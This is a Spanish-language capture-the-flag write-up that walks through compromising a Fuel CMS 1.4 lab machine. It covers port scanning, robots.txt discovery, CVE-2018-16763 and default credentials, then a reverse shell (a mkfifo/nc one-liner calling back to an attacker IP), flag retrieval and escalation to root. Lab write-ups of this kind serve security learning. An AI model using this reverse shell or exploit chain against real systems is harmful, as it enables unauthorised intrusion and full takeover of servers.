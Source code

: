 Escaneando podemos observar que la máquina solo tiene habilitado http
`80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:`

Podemos encontrar un `robots.txt` archivo, que revela un `/fuel/` directorio:
`$ curl -s 10.10.141.71/robots.txt
User-agent: *
Disallow: /fuel/`

### Versión obsoleta

Al acceder a http://10.10.141.71/, nos encontramos con una página de bienvenida predeterminada de Fuel CMS v1.4.

A fecha de redacción de este artículo, la versión más reciente es la 1.4.6, y el sitio presenta una vulnerabilidad conocida como CVE-2018-16763 ([https://www.exploit-db.com/exploits/47138](https://www.exploit-db.com/exploits/47138)), que permite la ejecución remota de código.

### Credenciales predeterminadas

En la documentación oficial ([https://docs.getfuelcms.com/general/security](https://docs.getfuelcms.com/general/security)), se indica que las credenciales predeterminadas son admin/admin. Estas pueden ser utilizadas, ya que la contraseña de administrador no ha sido modificada.

## Exploit
`$ python exploit.py` 
`cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 1234 >/tmp/f`

`$ nc -nlvp 1234`
`Ncat: Version 7.80 ( https://nmap.org/ncat )`
`Ncat: Listening on :::1234`
`Ncat: Listening on 0.0.0.0:1234`
`Ncat: Connection from 10.10.5.126.`
`Ncat: Connection from 10.10.5.126:60882.`
`/bin/sh: 0: can't access tty; job control turned off`
`$ cd /home`
`$ ls`
`www-data`
`$ cd www-data`
`$ ls`
`flag.txt`
`$ cat flag.txt`
`6470e394cbf6dab6a91682cc8585059b`

`$ python -c 'import pty; pty.spawn("/bin/bash")'`

`www-data@ubuntu:/var/www/html$ su - root`
`su - root`
`Password: mememe`
`root@ubuntu:~# whoami`
`root`
`root@ubuntu:~# cd /root`
`cd /root`
`root@ubuntu:~# ls`
`ls`
`root.txt`
`root@ubuntu:~# cat root.txt`
`cat root.txt`
`b9bbcb33e11b80be759c4e844862482d`